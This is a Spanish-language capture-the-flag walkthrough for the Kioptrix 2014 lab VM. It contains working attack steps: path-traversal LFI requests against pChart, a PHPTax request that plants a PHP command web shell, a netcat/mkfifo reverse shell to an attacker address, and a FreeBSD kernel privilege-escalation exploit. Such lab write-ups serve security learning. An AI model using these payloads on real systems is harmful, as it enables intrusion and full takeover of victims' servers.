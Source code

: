 # KIOPTRIX2014
Desarrollo del CTF KIOPTRIX2014. Download the VM: https://www.vulnhub.com/entry/kioptrix-2014-5,62/

Importante: Al añadir la máquina Virtual, crear una nueva VM que se compatible con VM Workstation 10.

## Escaneo de Puertos
```
root@kali:~/KIOPTRIX2014# nmap -n -P0 -p- -sS -sC -sV -vv -T5 -oA full 192.168.1.105
PORT     STATE  SERVICE REASON         VERSION
22/tcp   closed ssh     reset ttl 64
80/tcp   open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: 
|_  Supported Methods: OPTIONS
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: 403 Forbidden
``` 

## Enumeración de archivos y carpetas

1. La enumeración con GOBUSTER no nos brinda ninguna carpeta o archivo de utilidad.
2. Revisando el código HTML de la página obtenemos la siguiente ruta: pChart2.1.3/index.php
```
<html>
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>

 <body>
  <h1>It works!</h1>
 </body>
</html>
```
## Identificación de LFI (Local File Inclusion)

### 1. PROXY BURP para identificar URL vulnerable:
```
GET /pChart2.1.3/examples/index.php?Action=View&Script=../../../../../../../../etc/passwd 
```
<img src="https://github.com/El-Palomo/KIOPTRIX2014/blob/main/kioptrix1.jpg" width="80%"></img>

### 2. Buscamos archivos importantes:
El listado aquí: https://github.com/hussein98d/LFI-files/blob/master/list.txt

Encontramos 04 archivos de configuración:
```
pChart2.1.3/examples/index.php?Action=View&Script=../../../../../../../../usr/local/etc/php.ini
pChart2.1.3/examples/index.php?Action=View&Script=../../../../../../../../usr/local/etc/apache22/httpd.conf
pChart2.1.3/examples/index.php?Action=View&Script=../../../../../../../../etc/ftpusers
pChart2.1.3/examples/index.php?Action=View&Script=../../../../../../../../etc/rc.conf
```

### 3. Analizando el archivo HTTPD.conf
El virtualhost del puerto 8080 solo permite conexiones con un USER-AGENT especial.

```
Listen 80
Listen 8080
DocumentRoot "/usr/local/www/apache22/data"

SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
</VirtualHost>
```

## Acceder al puerto 8080

### 1. Con la información obtenida modificar el USER-AGENT 
<img src="https://github.com/El-Palomo/KIOPTRIX2014/blob/main/kioptrix2.jpg" width="80%"></img>

### 2. ¿Qué es PHPTAX y tiene vulnerabilidadeS?

Buscamos vulnerabilidades en EXPLOIT-DB
<img src="https://github.com/El-Palomo/KIOPTRIX2014/blob/main/kioptrix3.jpg" width="80%"></img>

La opción 1 y 3 eran una opción, la opción 02 no porque es METASPLOIT y la idea es utilizarlo lo menos posible.

### 3. Explotando la vulnerabilidad

https://www.exploit-db.com/exploits/25849 (Opción 01)

Creamos el archivo ejemplo.php
```
GET /phptax/index.php?field=ejemplo.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E"; HTTP/1.1
Host: 192.168.1.33:8080
User-Agent: Mozilla/4.0 Mozilla4_browser
```

<img src="https://github.com/El-Palomo/KIOPTRIX2014/blob/main/kioptrix4.jpg" width="80%"></img>

### 4.Obtener conexión reversa

Durante las pruebas se identificó que el sistema cuenta con NETCAT pero no tiene la opción "-e" asi que utilizamos el siguiente comando (hay que encodearlo):

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.100 5555 >/tmp/f
```

<img src="https://github.com/El-Palomo/KIOPTRIX2014/blob/main/kioptrix5.jpg" width="80%"></img>


## Elevar Privilegios

### 1. Revisar la versión del KERNEL en EXPLOIT-DB 

```
$ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64

root@kali:~# searchsploit FreeBSD 9.0
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation                 | freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation           | freebsd/local/26368.c
----------------------------------------------------------------------- ---------------------------------
```

### 2. Transferir el exploit a KIOPTRIX

KIOPTRIX no cuenta con WGET (mi primera opción) asi que transferimos el archivo con NETCAT.
```
En KALI
root@kali:~# cp /usr/share/exploitdb/exploits/freebsd/local/28718.c /tmp/
root@kali:~# netcat -lvp 6666 < /tmp/28718.c 

En KIOPTRIX
$ nc -nv 192.168.1.100 6666 > r00t.c
Connection to 192.168.1.100 6666 port [tcp/*] succeeded!
```

### 3. Compilamos y ejecutamos
```
$ cp r00t.c /tmp/
$ gcc -o r00t r00t.c
r00t.c:178:2: warning: no newline at end of file
$ chmod +x r00t
$ ./r00t
[+] SYSRET FUCKUP!!
[+] Start Engine...
[+] Crotz...
[+] Crotz...
[+] Crotz...
[+] Woohoo!!!
$ whoami
root
```
<img src="https://github.com/El-Palomo/KIOPTRIX2014/blob/main/kioptrix6.jpg" width="80%"></img>

